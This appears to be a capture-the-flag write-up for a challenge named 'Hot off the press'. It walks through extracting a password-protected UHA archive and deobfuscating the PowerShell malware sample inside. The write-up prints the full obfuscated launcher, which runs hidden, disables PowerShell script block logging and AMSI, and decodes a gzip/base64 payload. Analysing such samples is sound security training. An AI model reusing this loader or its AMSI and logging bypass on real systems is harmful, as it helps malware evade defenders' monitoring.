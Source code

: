 # Hot off the press

## Oh wow, a malware analyst shared a sample that I read about in the news! But it looks like they put it in some weird kind of archive...? Anyway, the password should be `infected` as usual!

A file is attached to the challenge.

---

Download the file. 

But... This is a weird file.. What kind is this ?

### uha file

A UHA file is an archive, you need [a specific tool](https://sam.gleske.net/uharc/) to decompress the archive. 

Put the UHARCD executable in the same folder as the archive and use this command, the pwd is in the challenge context

`.\uharc.exe e -pw .\hot_off_the_press`



![Alt text](image.png)


A wild powershell script appears.


### Powershell script

As you can see, the code is well obfuscated and honestly a pain in the ass to read

> `C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]`

The end of the file is pretty interesting, especially this part :

`New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream([System.Convert]::FromBase64String(((`

It means we have to decode from base64 then decompress from gzip.

If I do like said it leads to errors. I noticed another thing in the code:

> `''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E''`

1. The strings are concatenated ('+' between the strings) > it is a obfuscation technique
2. There are 2 variables inside the strings (`{0}` and `{1}`, at the end of the line we can see that `{0}` is "L" and `{1}` is "E")

So basically what we need to do there is:

1. Delete all the `''+''` concatenators
2. Replace `{0}` by ``L`` and `{1}` by ``E``
3. Base64 Decode all the String 
4. Gzip decompression

The output should be more code but this time we can see the flag url-encoded. One last step and it is done!
